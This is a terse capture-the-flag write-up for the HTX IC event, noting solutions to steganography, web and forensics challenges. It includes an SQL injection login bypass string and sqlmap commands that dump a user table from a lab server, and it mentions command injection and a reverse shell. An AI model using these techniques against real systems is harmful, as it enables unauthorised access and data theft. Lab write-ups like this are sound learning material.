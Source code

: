# Very Brief HTX IC Writeup

Had to explore game world
Interesting concept but hard to do in camp

A01
1. Remove first few bytes which have the password
2. Extract the files using the password (zip file?)
3. Extract tiff file from jpg?

A07
1. From dirb common.txt, create a SHA256 wordlist
2. Use dirb and that wordlist to brute force the website - Gives you forum, manual, home, login
3. Looking at Forum posts, notice there is not post1
4. Source code of that forum webpage suggests that you can get the url for post1 using
5. Leaked post1 gives admin password
6. Login using admin password to get flag

A12
1. Frequency Analyser for wav file

A19
1. Analyse the photo using some online analyser. Fiddle with some settings to make the unordinary pixels stand out
2. Google for the animal's full name. Flag is that but lower case

A20
1. Look through the video frame by frame

C74
1. Login using `' OR 1=1 #` bypass
2. You get the flag

C75-76
1. Log in to page, and get the cookie
2. Use sqlmap to crawl - Get time based injection ` sqlmap --cookie "PHPSESSID=j7giuk6crbm5gnjkn6n49qu5e5" -u http://10.8.201.73/HTXIC/tenant/services.php --forms`
3. Can get version using this: `sqlmap --cookie "PHPSESSID=tel2plf0qj23t9m0u3oboc6qn2" -u http://10.8.201.73/HTXIC/tenant/services.php --forms --sql-query "select version();"`
4. Can get tables using this: ` --tables`
5. Can get data using this `sqlmap --cookie "PHPSESSID=j7giuk6crbm5gnjkn6n49qu5e5" -u http://10.8.201.73/HTXIC/tenant/services.php --forms -D htx -T user --dump `


## Not Solved but other solutions

C70
1. Not sure how but command injection in `/cmd.php`
2. Custom payload for rev shell?
